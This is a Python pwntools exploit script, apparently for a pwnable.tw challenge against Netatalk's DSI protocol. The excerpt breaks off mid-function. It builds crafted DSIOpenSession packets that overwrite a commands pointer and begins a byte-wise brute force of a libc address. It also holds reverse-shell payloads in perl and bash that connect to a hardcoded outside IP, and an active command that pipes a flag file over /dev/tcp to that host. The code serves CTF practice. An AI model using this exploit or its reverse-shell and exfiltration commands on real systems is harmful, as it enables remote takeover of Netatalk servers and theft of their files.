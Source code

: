 ```python
from pwn import *

context(arch='amd64', os='linux', log_level='error')
FLAG_VAL = 0xdeadbeef
R_IP = b'47.240.70.54'
R_PORT = 8000
# CMD = b'perl -e \'use Socket;$i="47.240.70.54";$p=8000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};\' \x00'
# CMD = b'bash -c "bash  -i>& /dev/tcp/%s/%d 0<&1" \x00' % (R_IP, R_PORT)
CMD = b'bash -c "cat /home/netatalk/flag > /dev/tcp/%s/%d" \x00' % (R_IP, R_PORT)
DEBUG = 1
if DEBUG:
    IP = '127.0.0.1'
    PORT = 5566
else:
    # IP = '172.104.74.53'
    # PORT = 5566
    IP = 'chall.pwnable.tw'
    PORT = 10002
libc_bin = ELF('./libc-2.27.so')


def createDSIHeader(command, payload):
    dsi_header = b'\x00'  # dsi_flags, DSIFL_REQUEST
    dsi_header += command  # dsi_command
    dsi_header += b'\x01\x00'  # dsi_requestID
    dsi_header += p32(0)  # dsi_data
    dsi_header += struct.pack(">I", len(payload))  # dsi_len
    dsi_header += p32(0)  # dsi_reserved
    return dsi_header


def replaceCommandPtr(io, addr):
    cmd_payload = p32(0)  # attn_quantum
    cmd_payload += p32(0)  # datasize
    cmd_payload += p32(FLAG_VAL)  # server_quantum
    cmd_payload += p32(0)  # serverID & clientID
    cmd_payload += addr  # **************** commands ptr ****************
    cmd_header = b'\x01'  # DSIOPT_ATTNQUANT
    cmd_header += p8(len(cmd_payload))
    dsifunc_open = b'\x04'  # DSIFUNC_OPEN
    dsi_header = createDSIHeader(dsifunc_open, cmd_header + cmd_payload)
    msg = dsi_header + cmd_header + cmd_payload
    io.send(msg)
    try:
        reply = io.recv()
        return reply
    except:
        return None


def bruteforce():
    leak_addr = b''
    flag_str = struct.pack('>I', FLAG_VAL)
    # num = 0
    while len(leak_addr) < 6:
        # from 255 to 0 for each byte, get an address that is below libc_base
        for i in range(255, -1, -1):
            io = remote(IP, PORT)
            cur_byte = p8(i)
            addr = leak_addr + cur_byte
            reply = replaceCommandPtr(io, addr)
```